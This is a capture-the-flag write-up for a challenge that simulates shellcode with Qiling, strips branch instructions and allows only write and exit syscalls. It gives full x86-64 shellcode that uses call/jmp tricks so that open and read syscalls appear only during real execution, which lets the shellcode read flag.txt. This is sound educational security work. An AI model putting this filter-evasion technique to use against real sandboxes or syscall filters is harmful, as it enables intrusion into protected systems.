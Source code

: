 
### Overview

#### Challenge Overview

The challenge features a program that receives shellcode as input, which it then executes.
The catch is that the program first removes all branching instructions from the shellcode before executing it and aborts on illegal system calls (syscalls).
We need to supply it with shellcode that passes (or bypasses) this filter in order to retrieve the flag.


#### Approach Overview
Our approach works by creating shellcode that passes the filter, but when the branching instructions are removed, the semantics change in order to retrieve the flag.

### Challenge
After receiveing the shellcode, the challenge first simulates it with [qilling](https://github.com/qilingframework/qiling) (we refer to this as the _simulation phase_).
All instructions that are executed during the simulation phase are inserted into a buffer, with the exception of branching instructions (jmp, call, ret, etc.)
We refer to the shellcode in this buffer, as the _flattened_ shellcode.
If an _illegal syscall_ is encountered during simulation, that is, a syscall for which register `rax` is neither 1 (`write`) nor 60 (`exit`), the simulation phase aborts and the challenge ends.
Otherwise, the instructions are executed on the host, which we refer to as the _execution phase_.

### Approach

We start with the stock shellcode for retrieving the flag from a file named "flag.txt".
The following shellcode opens the file named "flag.txt", reads its content to a buffer, prints this buffer to `STDOUT` and exists.
These steps are achieved by using the syscalls `open`, `read`, `write` and `exit`, respectively.
```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
mov rax, 2 ; code for syscall "open"
xor rsi, rsi ; "flags" argument is "read-only"
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e 
push word 0x6761
push word 0x6c66 
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
xor rdx, rdx ; file mode (only applicable when creating a new file (I think))
syscall ; open file

; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read"
mov rsi, rsp ; use stack for read buffer
xor rdx, rdx 
mov dl, 128 ; read length
mov rax, 0 ; code for syscall "read"
syscall ; read flag

; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi 
mov dil, 1 ; STDOUT fd
xor rax, rax 
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit
```
This shellcode will not pass the filters, because it contains two illegal syscalls:
`rax=2` (`open`) and `rax=0` (`read`)

We need to change the shellcode so that it passes the filters during simulation, but still retrieves the flag during execution.
We achieve this by exploiting the fact that branching instructions are removed during the simulation phase.
In other words, during the simulation phase, only legal syscalls will be encountered (three writes and an exit).
Then, by flattening the shellcode, the semantics change so that the flag is retrieved instead.

We achieve this in the following way.
The `call` instruction pushes the address of the next instruction to the stack.
This is necessary for function calls, so that control-flow can continue from where the function was called, after its completion.
This instruction is removed by the challenge and will therefore not exists in the flattened shellcode.
Therefore, during simulation we have a different value at the top of stack than during execution.
To assign a specific value to a register, depending on whether we are in simulation or execution phase, we use the following pattern.
Say we want to assign the value `x` to the register `rax` during simulation and `y` during execution.
```asm
push y ; value for execution
push rsp
call _call1
dd x ; value for simulation
_ret1:
mov rax, [rsp]
mov rax, [rax]
...
_call1:
jmp _ret1
```
During simulation, the `call` instruction pushes the address of the `x` "instruction" to the stack (its fine if this is an illegal instruction, since it will not be executed in either simulation or execution).
Then, it branches to `_call1`, but just to jump back immediately.
At this point we have:
`rsp --> < x insn addr> --> < x >`
Therefore, the instructions below will load `x` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```

On the other hand, during execution, the flattened shellcode will be executed (note, `dd x` is not included, since it was not executed during simulation):
```asm
push y ; value for execution
push rsp
mov rax, [rsp]
mov rax, [rax]
...
```
Therefore, we have:
`rsp --> < some addr > --> y`
In this case, the instructions below will load `y` into `rax`.
```asm
mov rax, [rsp]
mov rax, [rax]
```
Therefore, we have successfully loaded a different value into a register depending on whether we are in simulation phase or execution phase.


We will mainly use this technique to set `rax=1` during simulation and `rax=2` / `rax=0` during execution.
However, we also need this technique to ensure we pass sensible arguments to the different syscalls, in both simulation and execution.

The final shellcode follows.

```asm
global    _start
section   .text

_start:
; --- open file "flag.txt" ---
push 2 ; code for syscall "open" (execution)
push rsp 
call _call1
dd 1 ; code for syscall "write" (simulation)
_ret1:
mov rax, [rsp]
mov eax, [rax]
xor rsi, rsi ; "flags" argument "read-only" (execution) / It seems a buffer of NULL for write is acceptable (simulation)
push word 0x7478 ; write file name "flag.txt" to stack
push word 0x742e
push word 0x6761
push word 0x6c66
lea rdi, [rsp] ; ptr argument to file name
mov [rdi+8], rsi ; null byte at end of file name
push rdi ; pointer to filename for "open" (execution)
push rsp 
call _call2
db 01 ; STDOUT for "write" (simulation)
times 7 db 00
_ret2:
mov rdi, [rsp]
mov rdi, [rdi] 
xor rdx, rdx ; open "mode" (execution) / write "count" (simulation) (0, so nothing will be written)
syscall ; open file (execution) / write "" (simulation)


; --- read file ---
mov rdi, rax ; move file descriptor, returned from "open" syscall, to "fd" argument for "read" (execution) / move num bytes written (0) to rdi (simulation) 
mov rsi, rsp ; use stack for buffer
xor rdx, rdx 
push 0 ; code for syscall "read" (execution)
push rsp 
call _call3
db 01 ; code for syscall "write" (simulation)
times 7 db 00
_ret3:
mov rax, [rsp]
mov rax, [rax]
push 128 ; size for "read" (execution)
push rsp 
call _call4
times 8 db 0 ; size for "write" (simulation)
_ret4:
mov rdx, [rsp]
mov rdx, [rdx]
push rdi ; file descriptor for "read" from "open" (execution)
push rsp
call _call5
db 01 ; STDOUT file descriptor for "write" (simulation)
times 7 db 00
_ret5:
mov rdi, [rsp]
mov rdi, [rdi]
syscall ; read file (execution) / write "" (simulation)


; Since the "write" and "exit" syscalls are legal, we can use the stock shellcode from henceforth.
; --- write the flag ---
mov rdx, rax ; move num chars, returned from "read" syscall to "count" argument for "write"
xor rdi, rdi
mov dil, 1 ; STDOUT fd
xor rax, rax
mov al, 1 ; code for syscall "write"
syscall ; write flag

; --- exit ---
mov rdi, 1 ; exit code
mov rax, 60 ; code for syscall "exit"
syscall ; exit

_call1:
jmp _ret1
_call2:
jmp _ret2
_call3:
jmp _ret3
_call4:
jmp _ret4
_call5:
jmp _ret5
```
